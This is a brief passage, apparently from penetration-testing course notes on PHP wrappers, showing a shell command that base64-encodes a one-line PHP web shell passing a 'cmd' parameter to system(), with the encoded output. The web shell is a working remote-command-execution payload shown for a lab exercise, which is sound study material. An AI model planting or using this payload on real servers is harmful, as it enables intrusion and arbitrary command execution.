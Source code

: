 ```yaml
---
title: PHP Wrappers
---
```


## Remote Code Execution

Base64 encode a basic PHP web shell.

```
Jerad Rodgers@htb[/htb]$ echo '<?php system($_GET["cmd"]); ?>' | base64

PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==
```